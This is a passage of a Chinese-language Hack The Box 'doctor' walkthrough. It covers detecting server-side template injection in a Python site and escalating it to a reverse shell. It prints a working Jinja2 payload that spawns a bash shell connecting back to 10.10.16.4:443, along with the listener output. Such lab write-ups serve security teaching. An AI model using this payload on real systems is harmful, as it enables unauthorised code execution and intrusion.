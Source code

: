 发现这个http server其实是python

我们nmap探测到的80的http server是 Apache httpd 2.4.41

说明其实是两个不同的站点

python网站有可能会出现服务器端模板注入


服务器端模板注入，本质上是用户的输入被当初了代码执行

[hacktrick](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

> A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side


如何测试？

参考hacktrick里面测试的payload，我们可以分别在title和Content做测试

比如：

title：```{{7*7}}```

Content:```${7*7}```

注意提交后的回显页面没有成功显示注入，但是在```/archive```返回的xml页面里，是可以回显上面的注入的

```
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>49</title></item>

			</channel>

```

由上可知。title里面的```7*7```被当成了python代码执行

下面payload拿到rev shell
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.16.4\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

访问```/archive```触发
```
┌──(root💀kali)-[~/htb/doctor]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.209] 41604
bash: cannot set terminal process group (875): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ id
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
web@doctor:~$ whoami
whoami
web
web@doctor:~$ 

```
